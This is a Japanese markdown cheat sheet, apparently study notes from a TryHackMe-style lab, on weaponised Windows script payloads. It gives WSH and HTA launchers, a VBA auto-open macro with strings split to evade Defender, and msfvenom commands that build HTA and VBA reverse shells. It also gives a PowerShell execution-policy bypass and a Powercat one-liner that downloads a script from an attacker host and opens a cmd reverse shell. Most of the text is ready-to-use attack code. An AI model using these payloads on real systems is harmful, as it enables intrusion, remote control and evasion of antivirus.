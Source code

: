 # script

## WSH (Windows Scripting Host)

概念

```shell
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

txt 拡張子でスクリプト実行

```shell
wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

## HTA (HTML Application)

概念

```html
<html>
  <body>
    <script>
      var c = "cmd.exe";
      new ActiveXObject("WScript.Shell").Run(c);
    </script>
  </body>
</html>
```

venom リバースシェル

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.22.182 LPORT=443 -f hta-psh -o thm.hta
```

metasploit

```shell
use exploit/windows/misc/hta_server
```

## VBA (Visual Basic for Application)

概念。※ Defender がこのファイルに反応するので難読化している

```vbscript
Sub Document_Open()
  CLC
End Sub

Sub AutoOpen()
  CLC
End Sub

Sub CLC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Ws"+"cript"+".S"+"hell").Run payload,0
End Sub
```

msfvenom

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba -o vba.txt
```

この出力をマクロエディタに張り付ける。  
※MS Word に適応させるためには、Workbook_Open()を Document_Open()に変更する必要がある。

## PSH (Powershell)

実行ポリシーの変更

```ps
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

ポリシーのバイパス

```shell
powershell -ex bypass -File poc.ps1
```

### Powercat

kali 側

```shell
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8888

nc -lvp 1337
```

被害者側

```shell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attackerip>:8888/powercat.ps1');powercat -c <attackerip> -p 1337 -e cmd"
```
